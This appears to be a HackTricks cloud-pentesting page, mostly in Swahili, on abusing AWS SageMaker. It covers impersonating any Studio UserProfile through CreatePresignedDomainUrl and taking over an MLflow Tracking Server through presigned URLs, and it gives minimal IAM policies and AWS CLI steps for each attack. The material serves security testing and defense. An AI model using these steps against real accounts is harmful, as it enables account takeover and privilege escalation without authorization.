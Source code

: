 # AWS - SageMaker Unauthorized Access

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### Maelezo
Kitambulisho chenye ruhusa ya kupiga simu `sagemaker:CreatePresignedDomainUrl` kwenye lengwa la Studio `UserProfile` kinaweza kutengeneza URL ya kuingia ambayo inaingia moja kwa moja ndani ya SageMaker Studio kama profile hiyo. Hii inampa kivinjari cha mshambulizi kikao cha Studio kinachorithi ruhusa za `ExecutionRole` za profile na ufikiaji kamili wa nyumbani na apps za profile zilizo kwenye EFS. Hakuna `iam:PassRole` au console access inahitajika.

### Mahitaji
- SageMaker Studio `Domain` na `UserProfile` lengwa ndani yake.
- Mhusika mshambulizi anahitaji `sagemaker:CreatePresignedDomainUrl` kwenye `UserProfile` lengwa (resource‑level) au `*`.

Mfano wa sera ya chini kabisa (iliyoelekezwa kwa UserProfile mmoja):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### Hatua za Matumizi Mabaya

1) Orodhesha Studio Domain na UserProfiles unazoweza kulenga
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) Tengeneza presigned URL (inayokuwa halali kwa takriban dakika 5 kwa chaguo-msingi)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) Fungua URL iliyorejeshwa katika kivinjari ili kuingia kwenye Studio kama mtumiaji lengwa. Katika terminal ya Jupyter ndani ya Studio thibitisha kitambulisho cha ufanisi:
```bash
aws sts get-caller-identity
```
Vidokezo:
- `--landing-uri` inaweza kuachwa. Baadhi ya thamani (mfano, `app:JupyterLab:/lab`) zinaweza kukataliwa kulingana na toleo la Studio; chaguo-msingi kawaida hurudisha kwenye ukurasa wa nyumbani wa Studio kisha kwenda Jupyter.
- Sera za shirika/vizuizi vya VPC endpoint vinaweza bado kuzuia ufikiaji wa mtandao; kutengeneza tokeni hakuhitaji kuingia kwenye console au `iam:PassRole`.

### Athari
- Lateral movement and privilege escalation kwa kubadilisha kuwa yoyote Studio `UserProfile` ambayo ARN yake imeruhusiwa, ukirithi `ExecutionRole` yake na filesystem/apps yake.

### Ushahidi (kutoka kwenye jaribio lililodhibitiwa)
- Kwa kuwa na `sagemaker:CreatePresignedDomainUrl` pekee kwenye `UserProfile` lengwa, roli ya mshambuliaji ilirejesha kwa mafanikio `AuthorizedUrl` kama:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- Ombi la moja kwa moja la HTTP linajibiwa kwa kurudishwa (HTTP 302) kuelekea Studio, likithibitisha kuwa URL ni halali na hai hadi liishe muda wake.


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### Maelezo
Shahsi mwenye idhini ya kuita `sagemaker:CreatePresignedMlflowTrackingServerUrl` kwa target SageMaker MLflow Tracking Server anaweza kutengeneza URL ya matumizi ya mara moja (presigned) inayothibitisha moja kwa moja kwenye UI iliyosimamiwa ya MLflow kwa server hiyo. Hii inampa ufikiaji sawa na mtumiaji halali angekuwa nao kwa server (kuona/kuunda experiments na runs, na kupakua/kupakia artifacts katika S3 artifact store ya server) bila ufikiaji wa console au `iam:PassRole`.

### Mahitaji
- SageMaker MLflow Tracking Server katika account/region na jina lake.
- Mshambuliaji (principal) anahitaji idhini ya `sagemaker:CreatePresignedMlflowTrackingServerUrl` kwenye rasilimali ya MLflow Tracking Server lengwa (au `*`).

Mfano wa sera ya chini kabisa (iliyopangwa kwa Tracking Server moja):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### Hatua za Kutumia Vibaya

1) Orodhesha MLflow Tracking Servers unaoweza target na chagua jina moja
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) Tengeneza presigned MLflow UI URL (inayotumika kwa muda mfupi)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) Fungua URL iliyorejeshwa kwenye kivinjari ili kufikia MLflow UI kama mtumiaji aliyethibitishwa kwa Tracking Server husika.

Vidokezo:
- Tracking Server lazima iwe katika hali ya tayari (mfano, `Created/Active`). Ikiwa bado iko `Creating`, ombi litakataliwa.
- The presigned URL ni ya matumizi mara moja na ni ya muda mfupi; tengeneza mpya inapohitajika.

### Athari
- Ufikiaji wa moja kwa moja wa MLflow UI iliyosimamiwa kwa Tracking Server lengwa, kuruhusu kutazama na kubadilisha experiments/runs na kupata au kupakia artifacts zilizohifadhiwa katika S3 artifact store iliyosanidiwa ya server, ndani ya ruhusa zinazotekelezwa na usanidi wa server.

{{#include ../../../../banners/hacktricks-training.md}}
